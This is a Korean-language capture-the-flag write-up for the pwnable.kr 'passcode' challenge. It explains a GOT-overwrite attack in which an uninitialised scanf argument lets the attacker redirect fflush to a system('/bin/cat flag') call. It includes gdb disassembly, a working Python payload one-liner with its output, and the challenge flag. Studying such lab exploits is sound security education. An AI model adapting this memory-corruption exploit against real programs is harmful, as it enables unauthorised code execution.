 ```got```의 값을 확인해봤더니 ```plt+6```의 주소가 들어있음!!  
```linux
0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af     
0x080485ea <+134>:   call   0x8048460 <system@plt> 

(gdb) x/s 0x80487af
0x80487af:      "/bin/cat flag" <- 얘는 값임, 주소 값이 아님.

주소 값은 0x080485e3임!
```
```
정리하면 name의 끝 4바이트는 passcode1의 값이 됨.

만약 그 값이 fflush의 got주소라면 scanf 함수에 의해 어떤 값이 쓰여지게 될 것임. 

그럼 fflush함수가 실행할 때, jmp 구문에 의해 만약 입력한 값이 주소 값이라면 
그 값으로 이동이 됨. -> 버퍼에 있는 데이터가 없어지지 않기 때문에

이유는 fflush(stdin)은 리눅스에서 적용안될 뿐더러 vs 2015부터도 적용 안됌.
또한 fflush의 인자는 출력 버퍼 스트림이 되어야 함.
```
```linux
passcode@pwnable:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"+"\xe3\x85\x04\x08"';cat) | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
enter passcode1 : enter passcode2 : checking...
Login Failed!
```
**passcode2가 int형이라서 정수 값으로 줘야함.**  
```linux
passcode@pwnable:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"+"134514147"';cat) | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
```
flag : Sorry mom.. I got confused about scanf usage :(
```

